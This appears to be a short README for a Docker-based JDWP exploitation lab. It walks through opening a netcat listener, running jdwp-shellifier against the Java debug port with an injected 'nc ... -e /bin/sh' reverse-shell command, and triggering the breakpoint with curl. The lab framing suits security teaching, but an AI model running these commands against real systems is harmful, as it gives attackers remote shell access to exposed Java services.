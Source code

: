 # JDWP exploitation lab

1. Run docker image:

    docker run -ti -p 8080:8080 -p 8000:8000 jdwp

2. Run netcat listener:

    nc -nlvp 8090

3. Run jdwp-shellifier:

    python jdwp-shellifier.py -t 127.0.0.1 -p 8000 --cmd 'nc 172.17.0.1 8090 -e /bin/sh'

4. Connect to the server (JDWP shellifier by default sets breakepoint on java.net.ServerSocket.accept):

    curl telnet://127.0.0.1:8080

or

    curl http://127.0.0.1:8080

or

    nc 127.0.0.1 8080

You should receive a reverse-shell connection on `nc` listener.
